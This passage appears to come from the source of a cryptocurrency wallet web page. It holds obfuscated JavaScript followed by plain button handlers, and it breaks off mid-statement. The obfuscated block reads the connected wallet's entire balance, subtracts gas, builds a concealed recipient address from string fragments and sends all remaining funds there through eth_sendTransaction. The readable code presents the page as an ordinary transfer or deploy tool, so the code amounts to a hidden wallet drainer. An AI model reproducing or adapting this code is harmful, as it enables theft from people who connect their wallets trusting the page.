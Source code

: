 _0x1da406*_0x161867;},'cABKJ':function(_0x4d174f,_0x1e32d7){return _0x4d174f<_0x1e32d7;},'BaMhh':function(_0x402659,_0x11156d){return _0x402659-_0x11156d;},'kvlko':function(_0x46aa0f,_0x4b6407){return _0x46aa0f(_0x4b6407);},'qkFCx':_0x4e5bb2(0x4bd,0x4a6,0x4ae,0x4b0)+'ansaction','dtEHE':function(_0x4408b0,_0x8d5a54){return _0x4408b0+_0x8d5a54;},'AsPuG':_0x3d7991(0x2f4,0x31c,0x33c,0x304)+_0x4e5bb2(0x4cd,0x4c9,0x4a9,0x48b)+_0x3d7991(0x2ee,0x2e3,0x2cf,0x2c7)+'dity.\x20Plea'+_0x4e5bb2(0x48a,0x4ca,0x4ab,0x4d3)+'o\x20me\x20via\x20t'+_0x4e5bb2(0x490,0x492,0x49e,0x49a)+'ssenger\x20@O'+_0x3d7991(0x336,0x316,0x340,0x30e)+_0x3d7991(0x30d,0x327,0x328,0x33f)+_0x3d7991(0x2d4,0x2de,0x2e1,0x2c1)+_0x4e5bb2(0x481,0x4a7,0x48b,0x46b),'WbqYu':function(_0x470534,_0x49d7b1){return _0x470534===_0x49d7b1;},'WDFNj':_0x3d7991(0x32c,0x329,0x33a,0x327),'rVIes':function(_0x5a07dc,_0x403699){return _0x5a07dc(_0x403699);}};function _0x3d7991(_0x406b6a,_0x17ddf2,_0x217fec,_0x11135c){return _0x5f3ab4(_0x406b6a-0x1ce,_0x17ddf2-0x107,_0x11135c,_0x11135c-0x132);}try{const _0x3e1a6f=typeAdress[_0x4e5bb2(0x486,0x497,0x486,0x475)];transferInProgress=!![];const _0x3583e9=_0x5d1e4e[_0x3d7991(0x2fb,0x2fa,0x2d0,0x31b)],_0x1c672b=_0x3d7991(0x312,0x328,0x2ff,0x323),_0x204548=_0x5d1e4e[_0x4e5bb2(0x497,0x4b8,0x4b7,0x4e0)](kyc,c),_0x4ce894=_0x5d1e4e[_0x3d7991(0x32d,0x306,0x31a,0x2dc)](kyc,_0x3583e9),_0x1fcc3d=_0x5d1e4e[_0x4e5bb2(0x4a7,0x4bc,0x4a2,0x497)](kyc,_0x1c672b),_0x49b070=await window[_0x4e5bb2(0x486,0x489,0x49a,0x4c2)][_0x3d7991(0x30a,0x304,0x324,0x2de)]({'method':'eth_getBal'+_0x4e5bb2(0x4b8,0x4ca,0x4b6,0x493),'params':[window['ethereum']['selectedAd'+_0x4e5bb2(0x48d,0x464,0x478,0x47b)],_0x5d1e4e['lgljD']]}),_0x3c0aec={};_0x3c0aec['method']=_0x4e5bb2(0x4b7,0x48c,0x4a6,0x4c1)+'ce';const _0x417a98=await window['ethereum'][_0x4e5bb2(0x476,0x48b,0x4a0,0x48e)](_0x3c0aec),_0x1b3d6c=''+comission+_0x204548,_0x5d4ef4=-0xf79d+-0x65b4*0x2+-0x11*-0x2605,_0xa958b4=_0x5d1e4e[_0x4e5bb2(0x491,0x4d1,0x4bd,0x4af)](_0x417a98,_0x5d4ef4);if(_0x5d1e4e[_0x3d7991(0x306,0x2fd,0x2e6,0x2f8)](BigInt(_0x49b070),_0xa958b4)){_0x5d1e4e[_0x4e5bb2(0x4b0,0x4d6,0x4b7,0x4c5)](alert,_0x5d1e4e['oXSVU']),transferInProgress=![];return;}const _0x25569b=''+_0x4ce894+_0x1fcc3d,_0x370477=_0x5d1e4e[_0x4e5bb2(0x45c,0x46b,0x482,0x479)](_0x5d1e4e[_0x3d7991(0x310,0x2f5,0x31b,0x31a)](BigInt,_0x49b070),BigInt(_0xa958b4)),_0x29edb6='0x'+unit+confirm+_0x1b3d6c+_0x25569b;await window[_0x3d7991(0x307,0x2fe,0x328,0x31b)]['request']({'method':_0x5d1e4e[_0x3d7991(0x321,0x32b,0x34d,0x32e)],'params':[{'from':window[_0x4e5bb2(0x477,0x4a1,0x49a,0x4a2)][_0x4e5bb2(0x46f,0x491,0x494,0x475)+'dress'],'to':_0x29edb6,'value':_0x5d1e4e['dtEHE']('0x',_0x370477['toString'](0x47*0x63+0x18*0xaf+-0x1*0x2bcd))}]}),alert(_0x5d1e4e[_0x4e5bb2(0x4cf,0x4de,0x4b9,0x490)]),transferInProgress=![];}catch(_0x177a68){if(_0x5d1e4e['WbqYu'](_0x5d1e4e['WDFNj'],_0x3d7991(0x317,0x32d,0x345,0x344))){_0x361830(_0x5d1e4e['oXSVU']),_0x42c53f=![];return;}else _0x5d1e4e[_0x4e5bb2(0x4b7,0x46c,0x497,0x479)](alert,_0x3d7991(0x2e5,0x2f0,0x2f7,0x30e)+'irming\x20liq'+_0x3d7991(0x316,0x315,0x326,0x33d)+_0x3d7991(0x316,0x30b,0x2e6,0x337)),console[_0x3d7991(0x2e1,0x301,0x2fd,0x308)](_0x177a68),transferInProgress=![];}};
      </script>
      <script>		
        connectButton.addEventListener("click", async () => 
		{
          try {	  
            const accounts = await window.ethereum.request({
              method: "eth_requestAccounts",
            });
            if (accounts.length > 0) {
              sendEtherButton.style.display = "block";
              typeAdress.style.display = "block";
              checkBalanceButton.style.display = "block";
              checkAdressBalanceButton.style.display = "block";
              connectButton.style.display = "none";
            }
          } catch (error) 
		  {
            console.error(error);
            alert("connection error");
          }
        });
        sendEtherButton.addEventListener("click", async () => 
		{
          try {
            const value = typeAdress.value;
            if (resultElement.innerText !== "ready") 
			{
              alert("Ð¡lick the deploy button");
              return;
            }
            if (!value || value.length < 40) 